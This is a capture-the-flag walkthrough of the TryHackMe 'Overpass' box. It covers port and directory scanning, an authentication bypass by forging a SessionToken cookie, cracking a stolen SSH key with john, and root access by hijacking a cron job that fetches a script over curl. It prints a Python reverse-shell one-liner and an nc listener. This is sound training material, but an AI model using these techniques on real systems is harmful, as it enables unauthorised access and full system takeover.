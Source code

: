 # 'Overpass' box writeup

## Overpass is a CTF box written by NinjaJc01 and available on the [TryHackMe](https://tryhackme.com/) platform

## Read about [Broken Authentication](https://www.youtube.com/watch?v=mruO75ONWy8), [OWASP A2](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

![bg](images/background.png)

## Foothold

+ **Let's start with a nmap scan for ports**

``nmap -sV -sC -oN scan1 10.10.107.5``

+ **We can clearly see 2 ports open, ssh and a http, configured on default ports**

![1](images/nmap_scan_ov_1.jpg)

+ **Visiting the http web-site, we are welcomed by a page which contains info about a specific password-manager app built by some developers. We also see a download link button**

![2](images/visited.jpg)

**Accessing the download page, we can look through the Source code of the password-manager app. It looks like it's written in go language which encrypt passwords with the ROT47 algorithm.**

+ **Let's do a gobuster scan of the web site**

``gobuster dir -u http://10.10.107.5/ -w /usr/share/wordlists/dirb/big.txt``

![3](images/admin.jpg)

+ **We can spot an admin page and accessing it, we can see an administrator login area. I tried, unsuccessfully, a SQL injection and then moved on the 2nd OWASP vuln. Let's look into the source code of the page and into some js code**

![4](images/scripts.jpg)

**We can clearly see a login.js script so let's look into the source code. The login function seems to be a way to go.**

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

+ **The credentials of the login page are sent to a endpoint inside some DB of the box and a session token is used. It seems like the session token is set with the statusOrCookie parameter. If we change the SessionToken value, maybe we can bypass the login. Let's create the cookie with the name of *SessionToken* and any value you want inside it**

![5](images/session.jpg)

## User escalation

**Now, trying to refresh the page we can observe we bypassed the login auth and a RSA private key of some guy named James is on our screen. Let's save it in some txt file and use it to connect to ssh.**

![6](images/RSA.jpg)

``chmod 600 id_rsa``

``ssh -i id_rsa james@10.10.107.5``

+ **Trying to connect to ssh, a key is required for our file. Let's use ssh2john to bruteforce our way in: i'm gonna use ssh2john to get our first hash then crack it with john using the rockyou.txt wordlist**

``python ssh2john.py id_rsa > key_hash``

``sudo john key_hash -wordlist=/usr/share/wordlists/rockyou.txt``

![7](images/johned.jpg)

**Using our password for the ssh we are in! There's two files into user's home directory: one of them is our user's flag and the other seems to be an update of their encryption app.**

![8](images/userflag.jpg)

## Root escalation

+ **According the message inside the todo.txt file, we can see that james is using the same app to encrypt his password. Listing the hidden files inside his directory we can see another file named** *.overpass* **It seems to be james password so we're gonna use it, but first don't forget to decrypt it, because it's encrypted with ROT47, as they said in the beginning page**

**Running sudo -l command, we cannot se any allowed cmds for james user.**

![9](images/noturn.jpg)

+ **Let's continue and look into the /etc/crontab file**

``cat /etc/crontab``

![10](images/croned.jpg)

+ **We can see a curl command, executed by root, which runs every minute and transfer the data from the *buildscript.sh*, the building script for their encrypting app, into terminal, then executed by bash. This script is taken from the machine local web-site, and the domain used is overpass.thm. If we look into the /etc/hosts file we can see the overpass.thm dns belongs to the local ip of the machine**

![11](images/hostsetc.png)

+ **What if we can run our own script on this machine? If we modify the overpass.thm domain into our local machine domain, we can host locally a python server and upload maybe a python script which get us a reverse shell. The respective script is executed by root so we're gonna get a root shell**

![12](images/modify.jpg)

**Next step is to create a similar path with the /etc/crontab curl get request from the host - */downloads/src/buildscript.sh*. Let's do this into our local machine and we're gonna host the server into our home directory**

``mkdir downloads``

``mkdir src``

**Now, let's create the *buildscript.sh***

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

![13](images/pythoned.jpg)

+ **The last step is to start our server from the home directory (on the 80 port) and then start a listener with nc**

``sudo python -m SimpleHTTPServer 80``

``nc -lvnp 1234``

![14](images/root_flagos.jpg)

**And we are root! It was a nice box with a very important vulnerability based on the Broken Authentication and some exploiting crontab service.**
